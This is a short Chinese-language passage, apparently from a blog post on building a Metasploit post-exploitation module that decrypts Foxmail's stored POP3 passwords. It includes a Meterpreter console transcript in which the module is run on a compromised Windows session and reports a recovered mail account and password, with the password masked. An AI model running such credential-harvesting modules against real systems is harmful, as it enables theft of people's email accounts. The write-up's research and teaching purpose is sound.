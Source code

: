 `POP3Password`保存的hash是14个字节，上面的解密过程实际上如下：

![Screen Shot 2018-10-23 at 10.33.02 AM.png]({{ site.url }}/images/metasploit/3541C3A030EF14C6EE5E3F7FE9BCE83D.png)

在获得靶机Meterpreter后进行测试：

```
msf post(windows/gather/credentials/my_foxmail) > use post/windows/gather/credentials/my_foxmail
msf post(windows/gather/credentials/my_foxmail) > set SESSION 2
SESSION => 2
msf post(windows/gather/credentials/my_foxmail) > exploit

[!] SESSION may not be compatible with this module.
[+] FoxMail installed, enumerating mail accounts...
[+] Reading mail account 1
[+] Decrypting password for mail account: rambo@example.com
[+] Found username jsmdyrjbqs@126.com with password: xxxxxx
[*] Post module execution completed
```